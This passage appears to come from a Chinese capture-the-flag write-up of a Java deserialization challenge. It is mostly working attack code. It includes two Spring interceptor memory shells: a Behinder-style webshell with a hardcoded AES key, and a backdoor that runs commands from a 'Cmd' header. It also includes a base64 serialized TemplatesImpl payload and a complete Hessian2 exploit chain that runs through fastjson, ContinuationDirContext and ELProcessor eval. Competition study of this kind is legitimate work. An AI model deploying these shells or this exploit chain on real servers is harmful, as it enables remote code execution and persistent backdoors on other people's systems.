at com.alibaba.fastjson2.writer.ObjectWriter2.write(ObjectWriter2.java:76)
at com.alibaba.fastjson2.writer.ObjectWriterImplMap.write(ObjectWriterImplMap.java:548)
at com.alibaba.fastjson2.JSON.toJSONString(JSON.java:2388)
at com.alibaba.fastjson.JSONObject.toString(JSONObject.java:1028)
at java.lang.String.valueOf(String.java:2994)
at java.lang.StringBuilder.append(StringBuilder.java:131)
at com.caucho.hessian.io.Hessian2Input.expect(Hessian2Input.java:3757)
at com.caucho.hessian.io.Hessian2Input.readString(Hessian2Input.java:1979)
at com.caucho.hessian.io.Hessian2Input.readObjectDefinition(Hessian2Input.java:2960)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2893)
at org.example.Exp1.Hessian2_unserialize(Exp1.java:66)
at org.example.Exp1.main(Exp1.java:52)
```

现在需要打入内存马，

registry 的

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.context.support.WebApplicationContextUtils;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.Base64;
import java.util.HashMap;
import java.util.List;

public class SpringInterceptorBehinderForEzJava extends AbstractTranslet implements HandlerInterceptor {
    private static int counter = 0;
    public SpringInterceptorBehinderForEzJava() throws Exception {
        // 获取 WebApplicationContext
        WebApplicationContext context = WebApplicationContextUtils.getWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest().getServletContext());

        // 获取 RequestMappingHandlerMapping
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

        // 注册 Interceptor
        Field field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        List<HandlerInterceptor> adaptedInterceptors = (List<HandlerInterceptor>) field.get(requestMappingHandlerMapping);
        adaptedInterceptors.add(new SpringInterceptorBehinderForEzJava(1));

        // 匹配特定路径的 Interceptor
//        MappedInterceptor mappedInterceptor = new MappedInterceptor(new String[]{"/demo"}, null, new SpringInterceptor(1));
    }

    public SpringInterceptorBehinderForEzJava(int n) {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {

        HttpSession session = request.getSession();

        HashMap pageContext = new HashMap();
        pageContext.put("request",request);
        pageContext.put("response",response);
        pageContext.put("session",session);

        if ("/blacklist/jdk/get".equals(request.getRequestURI())) {
            response.setContentType("application/json");
            System.out.println("requesting blacklist");
            if (counter % 2 == 0) {
                System.out.println("sending denyclasses");
                List<String> denyClasses = new ArrayList<>();
                denyClasses.add("fake.test");
                ByteArrayOutputStream baos = new ByteArrayOutputStream();
                ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
                objectOutputStream.writeObject(denyClasses);
                String msg = Base64.getEncoder().encodeToString(baos.toByteArray());
                objectOutputStream.close();
                baos.close();
                String result = "{\"code\": \"200\", \"message\": \"" + msg + "\"}";
                OutputStream output = response.getOutputStream();
                output.write(result.getBytes());
                output.flush();
            } else {
                System.out.println("sending serialized payload");
                String payload = "rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXVxjUnOXe4ywMABEwABWNhdXNldAAVTGphdmEvbGFuZy9UaHJvd2FibGU7TAANZGV0YWlsTWVzc2FnZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sACnN0YWNrVHJhY2V0AB5bTGphdmEvbGFuZy9TdGFja1RyYWNlRWxlbWVudDtMABRzdXBwcmVzc2VkRXhjZXB0aW9uc3QAEExqYXZhL3V0aWwvTGlzdDt4cHEAfgAIcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAAXNyABtqYXZhLmxhbmcuU3RhY2tUcmFjZUVsZW1lbnRhCcWaJjbdhQIABEkACmxpbmVOdW1iZXJMAA5kZWNsYXJpbmdDbGFzc3EAfgAFTAAIZmlsZU5hbWVxAH4ABUwACm1ldGhvZE5hbWVxAH4ABXhwAAAAInQAHmNvbS5leGFtcGxlLkZhc3RKc29uTmF0aXZlRGVtb3QAF0Zhc3RKc29uTmF0aXZlRGVtby5qYXZhdAAEbWFpbnNyACZqYXZhLnV0aWwuQ29sbGVjdGlvbnMkVW5tb2RpZmlhYmxlTGlzdPwPJTG17I4QAgABTAAEbGlzdHEAfgAHeHIALGphdmEudXRpbC5Db2xsZWN0aW9ucyRVbm1vZGlmaWFibGVDb2xsZWN0aW9uGUIAgMte9x4CAAFMAAFjdAAWTGphdmEvdXRpbC9Db2xsZWN0aW9uO3hwc3IAE2phdmEudXRpbC5BcnJheUxpc3R4gdIdmcdhnQMAAUkABHNpemV4cAAAAAB3BAAAAAB4cQB+ABV4c3IAHmNvbS5hbGliYWJhLmZhc3Rqc29uLkpTT05BcnJheTKOBuRnMfCwAgABTAAEbGlzdHEAfgAHeHBzcgAfY29tLmFsaWJhYmEuZmFzdGpzb24yLkpTT05BcnJheQAAAAAAAAABAgAAeHEAfgAUAAAAAXcEAAAAAXNyADpjb20uc3VuLm9yZy5hcGFjaGUueGFsYW4uaW50ZXJuYWwueHNsdGMudHJheC5UZW1wbGF0ZXNJbXBsCVdPwW6sqzMDAAZJAA1faW5kZW50TnVtYmVySQAOX3RyYW5zbGV0SW5kZXhbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzdAASW0xqYXZhL2xhbmcvQ2xhc3M7TAAFX25hbWVxAH4ABUwAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9wZXJ0aWVzO3hwAAAAAP////91cgADW1tCS/0ZFWdn2zcCAAB4cAAAAAF1cgACW0Ks8xf4BghU4AIAAHhwAAATJMr+ur4AAAA0ANIKACYAawoAbABtBwBuCgADAG8LAHAAcQoAcgBzBwB0CwB1AHYHAHcIADUKAHgAeQoAegB7CgB6AHwHAH0HAH4KAA8AfwsADgCACACBCwBwAIILAIMAhAgAhQgAhgsAgwCHCwCDAIgKAIkAigoAiQCLCgCMAI0HAI4KABwAawoAjwCQCgAcAJEIAJIKAJMAlAoAjwCVCgAcAJYKAJcAkQoAlwCYBwCZBwCaAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBACxMY29tL2V4YW1wbGUvTWVtU2hlbGwvU3ByaW5nSW50ZXJjZXB0b3JFY2hvOwEAB2NvbnRleHQBADdMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9XZWJBcHBsaWNhdGlvbkNvbnRleHQ7AQAccmVxdWVzdE1hcHBpbmdIYW5kbGVyTWFwcGluZwEAVExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvYW5ub3RhdGlvbi9SZXF1ZXN0TWFwcGluZ0hhbmRsZXJNYXBwaW5nOwEABWZpZWxkAQAZTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwEAE2FkYXB0ZWRJbnRlcmNlcHRvcnMBABBMamF2YS91dGlsL0xpc3Q7AQAWTG9jYWxWYXJpYWJsZVR5cGVUYWJsZQEARkxqYXZhL3V0aWwvTGlzdDxMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9IYW5kbGVySW50ZXJjZXB0b3I7PjsBAApFeGNlcHRpb25zBwCbAQAEKEkpVgEAAW4BAAFJAQAQTWV0aG9kUGFyYW1ldGVycwEACXRyYW5zZm9ybQEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHAJwBAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACXByZUhhbmRsZQEAZChMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdDtMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7TGphdmEvbGFuZy9PYmplY3Q7KVoBAAZvdXRwdXQBABZMamF2YS9pby9PdXRwdXRTdHJlYW07AQAHcHJvY2VzcwEAE0xqYXZhL2xhbmcvUHJvY2VzczsBAAVpbnB1dAEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEABGJhb3MBAB9MamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW07AQAGYnVmZmVyAQACW0IBAAdyZXF1ZXN0AQAnTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7AQAIcmVzcG9uc2UBAChMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7AQASTGphdmEvbGFuZy9PYmplY3Q7AQADY21kAQASTGphdmEvbGFuZy9TdHJpbmc7AQANU3RhY2tNYXBUYWJsZQcAfgcAnQcAngcAnwcAoAcAoQcAogcAowcAjgcAVgEAClNvdXJjZUZpbGUBABpTcHJpbmdJbnRlcmNlcHRvckVjaG8uamF2YQwAKAApBwCkDAClAKYBAEBvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9jb250ZXh0L3JlcXVlc3QvU2VydmxldFJlcXVlc3RBdHRyaWJ1dGVzDACnAKgHAJ0MAKkAqgcAqwwArACtAQBSb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvbWV0aG9kL2Fubm90YXRpb24vUmVxdWVzdE1hcHBpbmdIYW5kbGVyTWFwcGluZwcArgwArwCwAQA+b3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9oYW5kbGVyL0Fic3RyYWN0SGFuZGxlck1hcHBpbmcHALEMALIAswcAtAwAtQC2DAC3ALgBAA5qYXZhL3V0aWwvTGlzdAEAKmNvbS9leGFtcGxlL01lbVNoZWxsL1NwcmluZ0ludGVyY2VwdG9yRWNobwwAKAA7DAC5ALoBAANDbWQMALsAvAcAngwAvQA7AQAMQ29udGVudC1UeXBlAQAJdGV4dC9odG1sDAC+AL8MAMAAwQcAwgwAwwDEDADFAMYHAKIMAMcAyAEAHWphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtBwCjDADJAMoMAMsAzAEAAQoHAKAMAM0AzgwAzwApDADQAM4HAKEMANEAKQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBADJvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L0hhbmRsZXJJbnRlcmNlcHRvcgEAE2phdmEvbGFuZy9FeGNlcHRpb24BADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BACVqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0AQAmamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2UBABBqYXZhL2xhbmcvT2JqZWN0AQAQamF2YS9sYW5nL1N0cmluZwEAFGphdmEvaW8vT3V0cHV0U3RyZWFtAQARamF2YS9sYW5nL1Byb2Nlc3MBABNqYXZhL2lvL0lucHV0U3RyZWFtAQA8b3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9yZXF1ZXN0L1JlcXVlc3RDb250ZXh0SG9sZGVyAQAYY3VycmVudFJlcXVlc3RBdHRyaWJ1dGVzAQA9KClMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvY29udGV4dC9yZXF1ZXN0L1JlcXVlc3RBdHRyaWJ1dGVzOwEACmdldFJlcXVlc3QBACkoKUxqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0OwEAEWdldFNlcnZsZXRDb250ZXh0AQAgKClMamF2YXgvc2VydmxldC9TZXJ2bGV0Q29udGV4dDsBAEJvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9jb250ZXh0L3N1cHBvcnQvV2ViQXBwbGljYXRpb25Db250ZXh0VXRpbHMBABhnZXRXZWJBcHBsaWNhdGlvbkNvbnRleHQBAFcoTGphdmF4L3NlcnZsZXQvU2VydmxldENvbnRleHQ7KUxvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9jb250ZXh0L1dlYkFwcGxpY2F0aW9uQ29udGV4dDsBADVvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9jb250ZXh0L1dlYkFwcGxpY2F0aW9uQ29udGV4dAEAB2dldEJlYW4BACUoTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9PYmplY3Q7AQAPamF2YS9sYW5nL0NsYXNzAQAQZ2V0RGVjbGFyZWRGaWVsZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwEA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";
                String result = "{\"code\": \"200\", \"message\": \"" + payload + "\"}";
                OutputStream output = response.getOutputStream();
                output.write(result.getBytes());
                output.flush();
            }
            counter ++;
            return false;
        }

        if (request.getMethod().equals("POST") && "true".equals(request.getHeader("Behinder"))) {
            try {
                String k = "e45e329feb5d925b";
                session.putValue("u", k);
                Cipher c = Cipher.getInstance("AES");
                c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
                byte[] data = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
                Method m = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                m.setAccessible(true);
                Class clazz = (Class) m.invoke(Thread.currentThread().getContextClassLoader(),data, 0, data.length);
                clazz.newInstance().equals(pageContext);
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        } else {
            return true;
        }
    }
}
```

server 的

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.context.support.WebApplicationContextUtils;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.util.List;

public class SpringInterceptorEcho1 extends AbstractTranslet implements HandlerInterceptor {
    public SpringInterceptorEcho1() throws Exception {
        // 获取 WebApplicationContext
        WebApplicationContext context = WebApplicationContextUtils.getWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest().getServletContext());

        // 获取 RequestMappingHandlerMapping
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

        // 注册 Interceptor
        Field field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        List<HandlerInterceptor> adaptedInterceptors = (List<HandlerInterceptor>) field.get(requestMappingHandlerMapping);
        adaptedInterceptors.add(new SpringInterceptorEcho1(1));

        // 匹配特定路径的 Interceptor
//        MappedInterceptor mappedInterceptor = new MappedInterceptor(new String[]{"/demo"}, null, new SpringInterceptor(1));
    }

    public SpringInterceptorEcho1(int n) {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getHeader("Cmd");
        response.setStatus(200);
        response.setHeader("Content-Type", "text/html");
        if (cmd != null) {
            OutputStream output = response.getOutputStream();
            Process process = Runtime.getRuntime().exec(cmd);
            InputStream input = process.getInputStream();
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            int n;
            byte[] buffer = new byte[1024];
            while ((n = input.read(buffer)) != -1) {
                baos.write(buffer);
            }
            baos.write("\n".getBytes());
            input.close();
            output.write(baos.toByteArray());
            output.flush();
        }
        return true;
    }
}
```

打入内存马



访问`/blacklist/jdk/get`发现每次黑名单都会变，然后再访问两次`http://server:8080/status`，如果是访问了四次就是两次回显，这里我没用冰蝎去连，不方便，但是结果是一样的



## exp2

在一开始分析 jar 包的时候总看到 Result.class

```java
package com.example.registry.data;

/* loaded from: registry-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/example/registry/data/Result.class */
public class Result {
    private Object message;
    private String code;

    public Result(String code, String message) {
        this.message = message;
        this.code = code;
    }

    public static Result of(String code, String message) {
        return new Result(code, message);
    }

    public Object getMessage() {
        return this.message;
    }

    public void setMessage(String message) {
        this.message = message;
    }

    public String getCode() {
        return this.code;
    }

    public void setCode(String code) {
        this.code = code;
    }

    public boolean equals(Object o) {
        if (this == o) {
            return true;
        }
        if (o == null || getClass() != o.getClass()) {
            return false;
        }
        return toString().equals(o.toString());
    }

    public String toString() {
        return this.code + this.message;
    }
}
```

他这里可以触发 toString 方法，不过要比较两个类是否相等，还是经典的碰撞方法

```java
Result result1 = new Result("aaa","bbb");
Result result2 = new Result("a","b");
setFieldValue(result2,"message",jsonObject);

HashMap<Object, Object> map1 = new HashMap<>();
HashMap<Object, Object> map2 = new HashMap<>();
map1.put("yy", result1);
map1.put("zZ", result2);
map2.put("zZ", result1);
map2.put("yy", result2);

Hashtable<Object, Object> table = new Hashtable<>();
table.put(map1, "1");
table.put(map2, "2");
```

或者这样

```java
HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(result1);
HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(result2);

HashMap hashMap = new HashMap();
hashMap.put(targetSource1, "111");
hashMap.put(targetSource2, "222");
```

最终的poc

```java
package org.example;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.naming.ResourceRef;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.naming.CannotProceedException;
import javax.naming.StringRefAddr;
import javax.naming.directory.DirContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.net.URLEncoder;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class Exp2 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        //CtClass clazz = pool.get(SpringInterceptorBehinderForEzJava.class.getName());
        CtClass clazz = pool.get(Evil.class.getName());
        clazz.setName("Evil");
        String clazz_base64 = Base64.getEncoder().encodeToString(clazz.toBytecode());

        String code = "var bytes = org.apache.tomcat.util.codec.binary.Base64.decodeBase64('" + clazz_base64 + "');\n" +
                "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();\n" +
                "var method = java.lang.ClassLoader.class.getDeclaredMethod('defineClass', ''.getBytes().getClass(), java.lang.Integer.TYPE, java.lang.Integer.TYPE);\n" +
                "method.setAccessible(true);\n" +
                "var clazz = method.invoke(classLoader, bytes, 0, bytes.length);\n" +
                "clazz.newInstance();";


        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"" + code + "\")"));

        Class<?> clazzc = Class.forName("javax.naming.spi.ContinuationDirContext");
        Constructor<?> constructor = clazzc.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);

        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(ref);

        DirContext ctx = (DirContext) constructor.newInstance(cpe, new Hashtable<>());
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("test",ctx);

        Result result1 = new Result("aaa","bbb");
        Result result2 = new Result("a","b");


        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(result1);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(result2);

        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");
        setFieldValue(result2,"message",jsonObject);
        byte[] data =Hessian2_serialize(hashMap);


//        HashMap<Object, Object> map1 = new HashMap<>();
//        HashMap<Object, Object> map2 = new HashMap<>();
//        map1.put("yy", result1);
//        map1.put("zZ", result2);
//        map2.put("zZ", result1);
//        map2.put("yy", result2);
//
//        Hashtable<Object, Object> table = new Hashtable<>();
//        table.put(map1, "1");
//        table.put(map2, "2");
//
//        setFieldValue(result2,"message",jsonObject);
//        byte[] data = Hessian2_serialize(table);


        //System.out.println(URLEncoder.encode(Base64.getEncoder().encodeToString(data)));
        Hessian2_unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = getField(obj.getClass(),field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static Field getField(Class<?> clazz, String fieldName) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if (field != null) return field;
        } catch (NoSuchFieldException e) {
            if (clazz.getSuperclass() != null) {
                return getField(clazz.getSuperclass(), fieldName);
            }
        }
        throw new NoSuchFieldException(fieldName);
    }
    public static byte[] Hessian2_serialize(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        baos.write(67);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }
    public static Object Hessian2_unserialize(byte[] bytes) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```

调用栈如下

```java
at javax.el.ELProcessor.eval(ELProcessor.java:54)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at org.apache.naming.factory.BeanFactory.getObjectInstance(BeanFactory.java:210)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:321)
at javax.naming.spi.NamingManager.getContext(NamingManager.java:439)
at javax.naming.spi.ContinuationContext.getTargetContext(ContinuationContext.java:55)
at javax.naming.spi.ContinuationContext.getEnvironment(ContinuationContext.java:197)
at javax.naming.spi.ContinuationDirContext$$Lambda$25.1911152052.apply(Unknown Source:-1)
at com.alibaba.fastjson2.writer.FieldWriterObjectFunc.getFieldValue(FieldWriterObjectFunc.java:36)
at com.alibaba.fastjson2.writer.FieldWriterObject.write(FieldWriterObject.java:189)
at com.alibaba.fastjson2.writer.ObjectWriter2.write(ObjectWriter2.java:76)
